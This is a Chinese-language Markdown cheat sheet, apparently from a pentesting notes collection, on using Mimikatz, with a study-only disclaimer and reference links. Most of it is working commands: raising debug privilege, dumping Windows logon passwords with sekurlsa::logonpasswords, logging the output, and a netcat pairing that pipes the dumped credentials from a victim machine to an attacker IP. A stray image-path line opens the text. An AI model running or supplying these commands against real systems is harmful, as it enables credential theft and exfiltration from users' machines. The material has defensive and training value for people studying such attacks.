 # Mimikatz

<p align="center">
    <img src="../../../assets/img/logo/mimikatz.jpg" width="25%">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/gentilkiwi/mimikatz

**文章 & Reference**
- [九种姿势运行 Mimikatz](https://www.freebuf.com/articles/web/176796.html)
- [Mimikatz 使用小技巧](https://www.webshell.cc/5343.html)
- [域渗透——Dump Clear-Text Password after KB2871997 installed](https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Dump%20Clear-Text%20Password%20after%20KB2871997%20installed.html)

---

# 基本使用

提权
```
privilege::debug
```

抓取密码
```
sekurlsa::logonpasswords
```

输出
```shell
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir
# 记录 Mimikatz 输出
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
# 输出到 log.txt
```

输出传输到远程机器
```shell
# Attacker 执行
nc -lvp 4444

# Victim 执行
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.1.1 4444
# 192.168.1.1 为Attacker IP
```
